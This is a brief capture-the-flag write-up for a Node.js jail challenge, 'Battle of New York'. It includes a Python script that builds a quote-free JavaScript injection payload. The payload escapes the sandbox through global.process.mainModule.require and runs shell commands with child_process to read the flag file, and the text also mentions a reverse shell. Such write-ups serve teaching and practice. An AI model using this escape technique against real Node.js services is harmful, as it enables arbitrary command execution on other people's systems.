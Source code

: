 ## Challenge Title: Battle of New York

## Category: Misc

TLDR

- is a node.js jail, where all forms of quotes are blocked, require and module are set to undefined
- escape out of the function and the comments
- retrieve the `require` object from the `global` object
- construct payload using `String.fromCharCode()`
- Either make reverse shell or just list out the directories

Python Script to construct payload:

```
def makeString(text):

    cmd = ""
    base = "String.fromCharCode("
    for i in text:
        cmd += base + str(ord(i))+")" + "+"
    cmd = cmd[:-1]

    x = "child_process"
    first_cmd = ""
    for i in x:
        first_cmd += base + str(ord(i))+")" + "+"
    first_cmd = first_cmd[:-1]

    final = "*/});(()=>{let x = global.process.mainModule.require;x(" + first_cmd + ").exec(" +cmd + ", function(err,stdout,stderr){console.log(stdout)});/*"
    print(final)

makeString("cat /home/node/flag.txt")
```

## Flag

```
GLUG{Hydr4_!5_4l!v3_<0__0>_848745426986bbc0}
```
